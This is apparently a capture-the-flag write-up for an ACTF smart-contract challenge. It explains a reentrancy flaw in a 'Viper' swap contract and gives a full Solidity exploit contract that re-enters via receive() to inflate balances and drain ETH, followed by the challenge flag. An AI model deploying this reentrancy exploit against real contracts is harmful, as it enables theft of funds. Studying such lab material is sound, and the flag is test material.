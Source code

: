 Simply noted that the implement of these function are not based on `Checks, Effects, and Interactions`, which means its exploitable.

Taking advantage of the reentrancy vulnerability, during the process of exchanging VETH token for ETH, VETH token is stored in the Viper contract. While increasing Viper's VETH balance, it also increases the VETH and ETH balances of one's own account in viper.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Viper {
    function deposit(int128, uint256) external payable ;
    function withdraw(int128, uint256) external ;
    function swap(int128, int128, uint256) external payable ;
    function isSolved() view external returns (bool);
}

interface VETH {
    function approve(address, uint256) external payable ;
}
contract exp {

    Viper public viper = Viper(0x6A933E75E415e0E56455f44dD0e486B3258F89a0);
    VETH public veth = VETH(0x692ab1BA329Dd0CAdDffF1c23FfCC3614375aE69);
    uint256 public count;

    constructor() payable {
        // 4 ether
    }

    function go() public {
        veth.approve(address(viper), type(uint256).max);
        viper.swap{value: 3 ether}(0, 1, 3 ether);
        viper.withdraw(1, 6 ether);
        viper.swap{value: 1 wei}(1, 0, 0);
        viper.withdraw(1, 6 ether);
        viper.swap(1, 0, 6 ether);
        viper.withdraw(0, 6 ether);
    }

    receive() external payable {
        if (count==0) {
            count++;
            viper.deposit(1, 6 ether);
        }
    }
}
```

```Solidity
ACTF{8EW@rE_0F_vEnom0us_sNaK3_81T3$_as_1t_HA$_nO_cOnSc1ENCe}
```
